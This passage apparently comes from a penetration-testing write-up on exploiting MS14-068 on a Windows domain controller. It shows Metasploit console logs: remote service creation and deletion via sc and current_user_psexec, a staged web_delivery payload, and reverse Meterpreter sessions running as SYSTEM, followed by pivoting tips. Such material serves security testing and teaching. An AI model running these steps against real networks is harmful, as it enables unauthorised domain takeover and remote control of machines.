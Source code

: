 C:\Windows\system32\WindowsPowerShell\v1.0>sc \\msfdc01\ start psh
sc \\msfdc01\ start psh
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\Windows\system32\WindowsPowerShell\v1.0>sc \\msfdc01\ delete psh
sc \\msfdc01\ delete psh
[SC] DeleteService SUCCESS

C:\Windows\system32\WindowsPowerShell\v1.0>exit
exit
meterpreter > background
[*] Backgrounding session 5...

[*] [2014.12.10-13:10:28] 172.16.80.10     web_delivery - Delivering Payload
[*] [2014.12.10-13:10:28] Sending stage (770048 bytes) to 172.16.80.10
[*] Meterpreter session 6 opened (172.16.3.76:8686 -> 172.16.80.10:63162) at 2014-12-10 13:10:31 +0000

20141210-13:10 - 192.168.153.135 exploit(current_user_psexec) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDC01
OS              : Windows 2008 (Build 6002, Service Pack 2).
Architecture    : x86
System Language : en_GB
Meterpreter     : x86/win32

Pivoting native tools via Meterpreter to exploit this issue can prove difficult. Forwarding TCP port 445 allows you to use smbclient, however tools such as Winexe require ephemeral DCE-RPC ports so unless you are creating a VPN to your target this would be painful to use remotely. Hopefully more support for this soon.

Also, it’s worth keeping your eye on the current_user_psexec module as it may simplify the post exploitation steps in future. We have made a [pull request](https://github.com/rapid7/metasploit-framework/pull/4357) that introduces Kerberos support, by targeting hostnames instead of IP addresses, to this module:

20141210-22:17 - 192.168.153.133 exploit(current_user_psexec) > rerun
[*] Reloading module...

[*] [2014.12.10-22:17:22] Started reverse handler on 172.16.80.225:8888 
[*] [2014.12.10-22:17:22] msfdc01          Creating service kWfrGWFDDd
[*] [2014.12.10-22:17:23] msfdc01          Starting the service
[*] [2014.12.10-22:17:24] msfdc01          Deleting the service
[*] [2014.12.10-22:17:26] Sending stage (770048 bytes) to 172.16.80.10
[*] Meterpreter session 5 opened (172.16.80.225:8888 -> 172.16.80.10:63815) at 2014-12-10 22:17:43 +0000

### Gotchas

There are a few common issues that may prevent the MS14-068 exploits from working correctly. For example, if the DNS server isn’t resolving correctly you can have trouble authenticating with the Kerberos token. Here are a couple of tricks if you have problems exploiting the issue:
